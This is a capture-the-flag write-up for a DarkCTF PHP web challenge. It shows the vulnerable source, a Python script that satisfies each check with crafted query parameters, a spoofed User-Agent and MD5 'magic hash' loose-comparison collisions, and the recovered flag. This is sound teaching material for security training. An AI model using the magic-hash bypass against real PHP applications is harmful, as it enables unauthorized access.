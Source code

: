 ```
Description
Let's test your php knowledge.
Author : SaltanatNaibi
```
------------------------------------------------------------------
1. Open the link, tthe web page displays the source code for 'index.php' 
   It also incude the file "flag.php" 
   which I guess has the variables : 
                                   $flag
                                   $flag1
                                   $flag2
                                   $fla3

```
<?php

include "flag.php";

echo show_source("index.php");


if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['darkctf'])){
        $darkctf = $res['darkctf'];
    }
}

if ($darkctf === "2020"){
    echo "<h1 style='color: chartreuse;'>Flag : $flag</h1></br>";
}

if ($_SERVER["HTTP_USER_AGENT"] === base64_decode("MjAyMF90aGVfYmVzdF95ZWFyX2Nvcm9uYQ==")){
    echo "<h1 style='color: chartreuse;'>Flag : $flag_1</h1></br>";
}


if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['ctf2020'])){
        $ctf2020 = $res['ctf2020'];
    }
    if ($ctf2020 === base64_encode("ZGFya2N0Zi0yMDIwLXdlYg==")){
        echo "<h1 style='color: chartreuse;'>Flag : $flag_2</h1></br>";
                
        }
    }



    if (isset($_GET['karma']) and isset($_GET['2020'])) {
        if ($_GET['karma'] != $_GET['2020'])
        if (md5($_GET['karma']) == md5($_GET['2020']))
            echo "<h1 style='color: chartreuse;'>Flag : $flag_3</h1></br>";
        else
            echo "<h1 style='color: chartreuse;'>Wrong</h1></br>";
    }

?> 
```
-----------------------------------------------------------------------------------
2. In order to get all parts of the flag I need to satisfy all conditions which are
      
     ```
     i). if ($darkctf === "2020")    [$flag]
     
     ii). ($_SERVER["HTTP_USER_AGENT"] === base64_decode("MjAyMF90aGVfYmVzdF95ZWFyX2Nvcm9uYQ=="))   [$flag1]
     
     iii). ($ctf2020 === base64_encode("ZGFya2N0Zi0yMDIwLXdlYg=="))  [$flag2]
     
     iv). if ($_GET['karma'] != $_GET['2020'])
           if (md5($_GET['karma']) == md5($_GET['2020']))    [$flag3]
     
     ````
     
3. I wrote a python script to set all the parameters as required  'flag_get.py':

```
#!/usr/bin/python3

import requests
import re

url = 'http://php.darkarmy.xyz:7001/'

header={'User-Agent':'2020_the_best_year_corona'}

data = {'darkctf':'2020','ctf2020':'WkdGeWEyTjBaaTB5TURJd0xYZGxZZz09','karma':'240610708','2020':'QNKCDZO'}

r = requests.get(url, params=data, headers=header)

print(r.text)
```

$ ./flag_get.py | grep 'Flag :' 
$ </code>1<h4 style='color: chartreuse;'>Flag : DarkCTF{</h4></br>
  <h4 style='color: chartreuse;'>Flag : very_</h4></br>
  <h4 style='color: chartreuse;'>Flag : nice</h4></br>
  <h4 style='color: chartreuse;'>Flag : _web_challenge_dark_ctf}</h4></br></body>

`
flag : DarkCTF{very_nice_web_challenge_dark_ctf}
`
